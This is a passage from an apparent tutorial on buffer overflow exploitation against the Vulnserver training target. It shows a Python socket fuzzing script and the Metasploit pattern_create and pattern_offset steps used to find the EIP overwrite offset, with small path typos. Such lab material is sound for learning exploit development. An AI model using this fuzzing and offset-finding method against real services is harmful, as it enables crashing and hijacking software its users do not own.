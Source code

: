 ```
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

- don't forget to `chmod +x fuzzing.py`
- once we run this script we'll know the program crashes at what bytes (in this example it crashes at 2700 bytes)
- we round it up, we crashed at around 3000 bytes
- let's find the **EIP** value

## Finding The Offset

- using Metasploit pattern create with -l (for length) and our rounded up bytes where the server crashed which was 3000
- `/usr/share/metasploit-framework/tools/exploit/patter_create.rb -l 3000`

The following output will be sent to Vulnserver:

![https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/5-pattern_create.png](https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/5-pattern_create.png)

- copy the output and modify the script where `string = prefix + "A" * 100` to `string = prefix + "<metasploit output>"`
- this time when the server crashes we'll see the value on the **EIP** and we'll use Metasploit again with that specific patter offset value
- for the sake of example let's say the EIP value is: `368F4337`
- in Metasploit:
- `/user/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 368F4337`
- output will show the exact match for offset (in this example it's 2003 bytes)
- it tells us the at the exactly 2003 bytes we can control the EIP, now let's overwrite it
